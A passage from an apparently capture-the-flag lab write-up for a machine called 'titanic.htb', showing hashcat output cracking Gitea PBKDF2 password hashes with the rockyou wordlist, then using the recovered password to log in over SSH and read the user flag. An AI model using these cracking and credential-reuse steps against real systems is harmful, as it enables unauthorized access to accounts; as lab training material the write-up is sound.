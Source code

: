 ```

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 5 MB

Dictionary cache built:
* Filename..: /home/drew/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 0 secs

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => s

Session..........: hashcat
Status...........: Running
Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
Hash.Target......: gitea.hashes
Time.Started.....: Sun Feb 23 11:34:44 2025, (7 secs)
Time.Estimated...: Sun Feb 23 14:26:12 2025, (2 hours, 51 mins)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/home/drew/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2790 H/s (9.73ms) @ Accel:1024 Loops:64 Thr:1 Vec:8
Recovered........: 0/2 (0.00%) Digests, 0/2 (0.00%) Salts
Progress.........: 0/28688768 (0.00%)
Rejected.........: 0/0 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:46976-47040
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> michael!

sha256:50000:i/PjRSt4VE+L7p..1pNtNA==:5THTm..N7rqcO1qa...AvY8iXyhEBrfLyO/F2+..JjRE6llM+1Y=:hispassword
[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit =>
```

## Gaining Initial Access

Now we can use the found credentials to access the machine with SSH. 
```
PS C:\Users\DrewQ\Desktop> ssh developer@titanic.htb
developer@titanic.htb's password:

Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

developer@titanic:~$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)

developer@titanic:~$ cat user.txt
5235acdba68b635c.......
```
